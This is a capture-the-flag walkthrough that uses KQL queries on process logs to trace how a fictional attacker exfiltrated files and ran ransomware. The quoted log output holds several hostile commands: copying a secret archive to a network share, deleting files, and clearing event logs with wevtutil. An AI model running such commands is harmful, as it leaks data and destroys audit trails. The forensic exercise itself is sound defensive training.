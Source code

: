 We use the results from the above queries, to find all the commands copying and moving files that the attacker executed on Alabaster's account:

```sql
ProcessEvents
| where timestamp >= datetime("2024-12-11T01:39:50Z")
| where username == "alsnowball"
| where process_commandline has "copy" or process_commandline has "move"
| project process_commandline;
```

Looking at commands, we see that the last command copied Alabaster's file `Secret_Files.zip` to a network share `\\wocube\share`:

```
Copy-Item "C:\\Malware\\EncryptEverything.exe" -Destination "C:\\Windows\\Users\\alsnowball"
copy C:\Windows\Users\alsnowball\top secret\Snowball_Cannon_Plans.pdf C:\Users\alsnowball\Documents\Snowball_Cannon_Plans.pdf
copy C:\Windows\Users\alsnowball\top secret\Drone_Configurations.pdf C:\Users\alsnowball\Documents\Drone_Configurations.pdf
move C:\Users\alsnowball\Documents\Secret_Files.zip C:\Users\alsnowball\AppData\Local\Temp\Secret_Files.zip
copy C:\Users\alsnowball\AppData\Local\Temp\Secret_Files.zip \\wocube\share\alsnowball\Secret_Files.zip
```

#### Question 6
*After exfiltrating critical files from Alabaster’s system, Team Wombley deployed a malicious payload to encrypt the device, leaving Alabaster locked out and in disarray.*

*Eve Snowshoes comments, "The final blow in this attack was the ransomware they unleashed. Finding the name of the malicious file will help us figure out how they crippled the system."*

***What is the name of the malicious file that was run on Alabaster's laptop?***
> EncryptEverything.exe

First we get the time that the attacker exfiltrated files from Alabaster's laptop:

```sql
ProcessEvents
| where username == "alsnowball"
| where process_commandline == "copy C:\\Users\\alsnowball\\AppData\\Local\\Temp\\Secret_Files.zip \\\\wocube\\share\\alsnowball\\Secret_Files.zip"
| project timestamp;
```

Next we get all of the commands the attacker ran after the exfilitration:

```sql
ProcessEvents
| where timestamp >= datetime("2024-12-16T15:51:52Z")
| where username == "alsnowball"
| project process_commandline;
```

Looking at the first command, we see that the attacker ran malicious file `EncryptEverything.exe`:

```
C:\Windows\Users\alsnowball\EncryptEverything.exe
copy C:\Users\alsnowball\AppData\Local\Temp\Secret_Files.zip \\wocube\share\alsnowball\Secret_Files.zip
del C:\Users\alsnowball\Documents\Snowball_Cannon_Plans.pdf
del C:\Users\alsnowball\Documents\Drone_Configurations.pdf
del C:\Users\alsnowball\AppData\Local\Temp\Secret_Files.zip
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
"C:\Program Files (x86)\Microsoft\EdgeWebView\Application\103.0.1264.77\msedgewebview2.exe" --type=utility 
C:\Windows\System32\cmd.exe nslookup google.com
```